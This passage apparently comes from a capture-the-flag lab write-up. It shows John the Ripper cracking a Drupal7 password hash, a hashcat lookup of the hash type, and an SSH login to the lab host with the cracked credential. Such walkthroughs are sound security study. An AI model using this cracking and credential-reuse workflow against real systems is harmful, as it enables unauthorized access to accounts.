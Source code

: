 ```bash
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)     
1g 0:00:00:00 DONE (2022-06-23 10:25) 5.263g/s 1263p/s 1263c/s 1263C/s tiffany..chris
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Now, for the sake of knowledge we let's check what king of hash `$S$` is.  
```
Hash mode #7900                                                                                                                                                                                                                                Name................: Drupal7                                                                                                                                                                                                                Category............: Forums, CMS, E-Commerce                                                                                                                                                                                                Slow.Hash...........: Yes                                                                                                                                                                                                                    Password.Len.Min....: 0                                                                                                                                                                                                                    
  Password.Len.Max....: 256                                                                                                                                                                                                                  
  Salt.Type...........: Embedded                                                                                                                                                                                                             
  Salt.Len.Min........: 0                                  
  Salt.Len.Max........: 256                                                                                           
  Kernel.Type(s)......: pure                                                                                                                                                                                                                 
  Example.Hash.Format.: plain                                                                                         
  Example.Hash........: $S$C20340258nzjDWpoQthrdNTR02f0pmev0K/5/Nx80WSkOQcPEQRh
  Example.Pass........: hashcat                            
  Benchmark.Mask......: ?b?b?b?b?b?b?b
```
as we can see this is a Drupal7 hash type.  
Now with the password we can try to login via ssh as user `brucetherealadmin`.
```bash
[root@kali wordlists ]$ ssh -l brucetherealadmin $TARGET
The authenticity of host '10.10.10.233 (10.10.10.233)' can't be established.
ED25519 key fingerprint is SHA256:rMsnEyZLB6x3S3t/2SFrEG1MnMxicQ0sVs9pFhjchIQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.233' (ED25519) to the list of known hosts.
brucetherealadmin@10.10.10.233's password: 
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ 
```
